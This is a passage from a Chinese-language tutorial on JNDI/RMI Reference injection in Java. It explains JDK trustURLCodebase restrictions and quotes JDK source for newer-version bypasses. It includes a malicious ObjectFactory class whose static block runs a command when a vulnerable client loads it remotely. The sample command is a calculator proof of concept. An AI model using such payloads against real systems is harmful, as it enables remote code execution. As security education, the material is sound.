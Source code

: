 ```bash
EvilClass: constructor
EvilClass: getObjectInstance
```

但需要注意的地方有两点：
1. 上面的客户端代码将 `com.sun.jndi.rmi.object.trustURLCodebase` 设定为 true，表示信任远程的 object factory。该限制在 jdk 8u121、7u131、6u141 版本时加入。
2. com.sun.jndi.rmi.registry.ReferenceWrapper 在 jdk 8u181 后被移除，需要额外引入对应 jar 包。

实际利用时，也可以直接将 payload 写在静态代码块中，当远程的工厂类被实例化时，就会直接执行静态代码块中的 payload：
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class TestEvilClass implements ObjectFactory {
    {
        try {
            Runtime.getRuntime().exec("mate-calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```



##  Reference 远程类加载（高版本 jdk）
> 下面的 payload 都来自于文章 [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/)

jdk 8u121、7u131、6u141 后假如了对远程类加载的限制，主要代码逻辑在 com.sun.jndi.rmi.registry.RegistryContext#decodeObject 方法中：
```java
    if (ref != null && ref.getFactoryClassLocation() != null &&
        !trustURLCodebase) {
        throw new ConfigurationException(
            "The object factory is untrusted. Set the system property" +
            " 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
    }
    return NamingManager.getObjectInstance(obj, name, this,
                                            environment);
```
如果引用不为空，ref.getFactoryClassLocation() 不为空，且 trustURLCodebase 为 false，则直接抛出 ConfigurationException 异常。
